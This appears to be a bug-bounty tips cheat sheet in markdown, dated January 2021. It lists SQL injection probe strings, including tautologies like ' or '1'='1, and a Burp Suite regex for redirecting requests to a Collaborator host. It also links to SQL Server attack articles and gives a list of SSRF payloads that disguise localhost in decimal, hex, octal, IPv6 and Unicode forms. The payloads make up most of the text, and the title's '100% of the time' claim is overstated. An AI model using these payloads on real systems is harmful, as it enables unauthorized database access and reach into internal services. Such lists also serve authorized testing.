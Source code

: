 # Bug Bounty Tips - January 2021

## This is how to find sql-Injection 100% of the time
```sql
/?q=1
/?q=1'
/?q=1"
/?q=[1]
/?q[]=1
/?q=1`
/?q=1\
/?q=1/*'*/
/?q=1/*!1111'*/
/?q=1'||'asd'||'   <== concat string
/?q=1' or '1'='1
/?q=1 or 1=1
/?q='or''='
```

## Burpsuite Auto Repeater match regex
```text
https?:\/\/(www\.)?[-a-zA-Z0–9@:%._\+~#=]{1,256}\.[a-zA-Z0–9()]{1,6}\b([-a-zA-Z0–9()@:%_\+.~#?&//=]*)
```
replace with your domain or burp Collaborator link in `request header` or `request param value`

## SQL Server Hacking with LAB
***https://blog.netspi.com/hacking-sql-server-stored-procedures-part-1-untrustworthy-databases/***

***https://blog.netspi.com/hacking-sql-server-stored-procedures-part-2-user-impersonation/***

***https://blog.netspi.com/hacking-sql-server-stored-procedures-part-3-sqli-and-user-impersonation/***

***https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/***

## SSRF Bypass Payload
```text
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
http://0.0.0.0:80
http://0.0.0.0:443
http://0.0.0.0:22
Bypass using HTTPS
https://127.0.0.1/
https://localhost/
Bypass localhost with [::]
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:22/ SSH
http://127.1/
http://0000::1:80/
http://[::]:80/
http://2130706433/
http://whitelisted@127.0.0.1
http://0x7f000001/
http://017700000001
http://0177.00.00.01
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/
http://⓪ⓧⓐ⑨ⓕⓔⓐ⑨ⓕⓔ:80/
```